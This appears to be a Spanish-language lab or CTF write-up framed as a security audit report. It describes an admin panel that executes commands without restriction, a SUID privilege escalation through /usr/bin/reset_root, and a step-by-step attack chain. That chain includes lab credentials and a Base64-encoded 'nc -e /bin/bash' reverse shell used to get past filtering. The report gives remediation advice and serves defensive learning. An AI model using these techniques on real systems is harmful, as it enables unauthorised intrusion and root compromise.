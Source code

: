 ### 3.2 Panel administrativo con ejecución de comandos sin restricciones
**Descripción técnica:** El endpoint `/admin` exponía una interfaz que permitía ejecutar comandos del sistema (shell-like) como el usuario web (`apache`) sin validación, limitación de órdenes, ni whitelist. Los controles de acceso eran insuficientes (solo autenticación básica con credenciales recuperadas).  
**Por qué es crítico:** ejecutar comandos desde una interfaz web es diseño peligroso; sin controles, abre camino a RCE y pivoting.  
**Consecuencias:** obtención de shell, ejecución de payloads (reverse shell), posibilidad de exfiltración o persistencia.  
**CVSS aproximado:** 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)  
**Recomendación inmediata:** deshabilitar funcionalidad; si es necesaria (debug), restringir por IP, usar autenticación fuerte (mTLS), revisar y limitar comandos permitidos.

### 3.3 Binario SUID inseguro `/usr/bin/reset_root`
**Descripción técnica:** Binario con bit SUID (permite ejecución con privilegios de owner, presumiblemente root) que, por diseño, buscaba/esperaba ciertos archivos temporales en `/dev/shm` o `/tmp`. Si se creaban esos artefactos predecibles, la lógica del binario permitía resetear la contraseña de root. El binario no validaba la procedencia/propietario de los archivos ni usaba rutas seguras.  
**Por qué es crítico:** SUID mal implementado permite escalada incondicional de privilegios.  
**Consecuencias:** escalada directa a `root`, control absoluto del host.  
**CVSS aproximado:** 9.8 (local->priv escalation; si se combina con web shell remoto, el vector se vuelve remota).  
**Recomendación inmediata:** remover bit SUID (`chmod u-s`), mover a cuarentena para análisis forense, auditar todos los SUID.

---

## 4) Cadena de ataque
1. **Descubrimiento de red:** `netdiscover -i eth0` detecta host objetivo en la red local (`192.168.131.130`).  
   - *Propósito auditoría:* Confirmar alcance IP y segmentación de red.  
2. **Fingerprinting de servicios:** `nmap -sV -sC` revela servicios (22, 80, 443) y certificados con SAN para `earth.local`/`terratest.earth.local`.  
   - *Por auditoría:* evaluar versiones y posibles CVE conocidas.  
3. **Enumeración web:** `gobuster` localiza `/admin` y, en otro vhost, `robots.txt -> testingnotes.txt` que remite a `testdata.txt`.  
   - *Por auditoría:* detectar revelación de paths y archivos informativos.  
4. **Recuperación de credenciales:** `testdata.txt` usado como key XOR para descifrar mensajes embebidos (CyberChef o script reproducible). Resultado: credenciales `terra:earthclimatechangebad4humans`.  
   - *Por auditoría:* reproducir con script y documentar la debilidad criptográfica.  
5. **Acceso al panel y ejecución de comandos:** Login con `terra`, uso del campo para ejecutar comandos (sin restricciones) → `whoami` → `apache`; lectura de `user_flag.txt`.  
   - *Por auditoría:* evidencia de privilegios web sin control.  
6. **Evasión de filtros / reverse shell:** el panel bloqueaba conexiones remotas directas; el atacante codificó `nc -e /bin/bash <IP> <PORT>` en Base64, lo decodificó en servidor y abrió conexión al listener.  
   - *Por auditoría:* demuestra falta de WAF/RASP y ausencia de inspección profunda de payloads.  
7. **Escalada a root:** búsqueda de SUID (`find / -perm -u=s`) revela `/usr/bin/reset_root`; análisis dinámico/estático muestra dependencia de ficheros en `/dev/shm` o `/tmp`; creando esos ficheros y ejecutando el binario se restablece contraseña `root`. `su root` → `cat /root/root_flag.txt`.  
   - *Por auditoría:* fallo de diseño SUID + rutas temporales predecibles.

---